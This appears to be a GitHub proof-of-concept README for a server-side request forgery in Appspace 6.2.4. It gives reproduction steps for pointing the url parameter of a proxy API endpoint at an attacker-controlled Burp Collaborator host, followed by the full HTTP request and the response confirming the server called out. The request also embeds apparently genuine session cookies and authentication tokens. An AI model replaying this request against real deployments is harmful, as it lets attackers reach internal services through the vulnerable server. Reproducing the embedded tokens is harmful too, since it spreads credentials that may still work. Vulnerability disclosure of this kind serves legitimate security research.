 # PoCSSrfApp
Note:Website was using Appspace version 6.2.4
Steps to reproduce:
1.Visit: subdomain.target.com/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=?
2.Change the Value of Url= to your Hosted Server (I change it to my burp Collaborator)
3.Forward the request and check for log and response.
4.In my case I was able to get collaborator response.




Request:
GET /api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://kui5ntipd353w4eekwtxhc5af1lu9oxel58ywn.burpcollaborator.net? HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain
RemoveHeader-Transfer-Encoding: true
ExtraHeader-Access-Control-Expose-Headers: Removed-X-Frame-Options
RemoveHeader-X-Frame-Options: true
X-Requested-With: XMLHttpRequest
Connection: close
Referer: https://redacted.com/library/virtual/library/workspaces/dcdc8c58-f282-4d79-b519-bf093273ff58/index.html?editing=true&display_mode=tv
Cookie: _gcl_au=1.1.605860964.1611041064; _ga=GA1.2.237028277.1611041073; _fbp=fb.1.1613375264845.130352864; ASP.NET_SessionId=hrm4kw45gl2ikz55rylyxm45; __AntiXsrfToken=e3a9153874de4f03800ea59f647b5bec; appspace-core-token=c2bd442f-8a97-46fe-8341-e27b30e6a146; ticket=c2bd442f-8a97-46fe-8341-e27b30e6a146; logincookie=AFDF47507F483F7944E5B6D99246310F6CA4300B6BC43EF47B8A73C52AAF2165BC3D79B0C573DA1189B586F86DDEEA19CD820DA2E0EB269812587CDFF3A08CF74907E6D1C370490A37DC8DEF89ADE6117A1806F6A6D83609AA5A47A9A02766CFE33193726211736D5B07B056CE53B9EADC7723CDFE99A9F1AD499CB399B5F1B88A58822B1BC4BE537C704E8F89F9496FA7972266AA00328F524443BC95D29D0B902BF81AAF3AA748FEBA342A2402EDB35A05038AEC3948C60C34B4B99A52F76E0E16F2A43F33295F6FCF83C107453CCC2D762EAB; __RequestVerificationToken_L2xpYnJhcnk1=sVXhPQSiCj559qE00AolIlSK2peRu_X1qWB8rKI-XpShQ1ewAynE98K06L4jIGvklTAFiSYWXBw16C9w8XwLnME2ITpVvnD66BYjVBUm5ys1


Response:
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store
Content-Type: text/html
Vary: Accept-Encoding
X-Collaborator-Version: 4
Access-Control-Expose-Headers: Removed-X-Frame-Options
Access-Control-Allow-Origin: *
Access-Control-Request-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: authorization,origin,x-my-header,host,accept,content-type,cache-control
Access-Control-Allow-Origin: *
Date: Wed, 24 Feb 2021 06:19:52 GMT
Connection: close
Content-Length: 61

<html><body>dlgnon6ksjta2ya1tg7gq2zjlgmgigjflgz</body></html>
